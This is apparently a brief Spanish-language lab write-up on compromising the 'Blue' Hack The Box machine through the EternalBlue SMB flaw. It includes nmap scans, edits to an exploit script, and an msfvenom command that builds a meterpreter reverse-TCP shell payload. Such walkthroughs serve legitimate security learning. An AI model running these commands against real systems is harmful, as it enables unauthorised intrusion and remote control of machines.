



Blue
- Realizamos un escaneo de puertos con nmap nmap -Pn -sV -sC -p- --open 10.10.10.40 -oN scan.txt
- Encontramos Windows Server y SMB abiertos
- Intento entrar con el usuario anonymous pero no encuentro nada.
- realizo un nmap con el parametro --script vuln nmap -Pn -sV -sC -p- --open 10.10.10.40 --script vuln
- La script encuentra que SMB es vulnerable a EternalBlue

- Al ejecutar la script dme da un error de que no se encontró la pipe
- Creo que es un problema de privilegios
- Tengo que modificar la script
- Primero meto el usuario

- Este script lo que hace es crear un archivo. Pero no nos va a devolver un shell
- Leyendo el código encuentro esto

- Creo un reverse shell con msfvenom msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
- Descomentamos en la script y metemos el path de reverse.exe
- Lo ejecutamos y tenemos el shell
- Otra opción sería con msfconsole
- EternalBlue nos permite entrar como administradores directamente